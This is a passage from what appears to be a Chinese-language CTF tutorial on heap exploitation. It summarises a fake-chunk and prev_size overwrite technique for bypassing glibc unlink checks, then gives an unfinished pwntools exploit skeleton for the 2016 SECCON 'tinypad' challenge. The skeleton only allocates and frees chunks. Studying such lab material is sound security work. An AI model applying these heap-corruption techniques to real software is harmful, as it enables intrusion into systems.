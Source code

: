 所以只需要伪造 fake chunk 的 next chunk 的 prev_size 字段

## 总结

- 需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分
- 需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址
- 需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测

## 实例-2016 Seccon tinypad(未完成)

```python
from pwn import *
context.arch='amd64'
context.log_level='DEBUG'

p = process('./tinypad')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def add(size,content):
    ru("(CMD)>>> ")
    sl("A")
    ru("(SIZE)>>> ")
    sl(size)
    ru("(CONTENT)>>> ")
    sl(content)

def edit(index,content):
    ru("(CMD)>>> ")
    sl('E')
    ru("(INDEX)>>> ")
    sl(index)
    ru("(CONTENT)>>> ")
    sl(content)
    ru("Is it OK?")
    sl("Y")

def delete(index):
    ru("(CMD)>>> ")
    sl('D')
    ru("(INDEX)>>> ")
    sl(index)

def dbg():
    gdb.attach(p)
    pause()

add(0x80,'A'*0x80)  #id1
add(0x80,'B'*0x80)  #id2
add(0x80,'C'*0x80)  #id3
add(0x80,'D'*0x80)  #id4

delete(3)
delete(1)
```